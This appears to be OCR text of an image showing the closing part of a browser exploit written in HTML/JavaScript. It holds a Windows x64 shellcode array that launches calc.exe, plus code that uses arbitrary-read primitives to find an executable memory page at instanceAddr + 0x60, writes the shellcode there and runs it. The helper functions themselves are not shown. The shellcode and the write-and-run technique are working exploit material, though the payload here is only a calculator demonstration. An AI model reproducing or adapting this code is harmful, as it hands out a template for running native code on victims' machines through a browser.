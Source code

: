 ```html

var shellCode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
      0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
      0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
      0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```
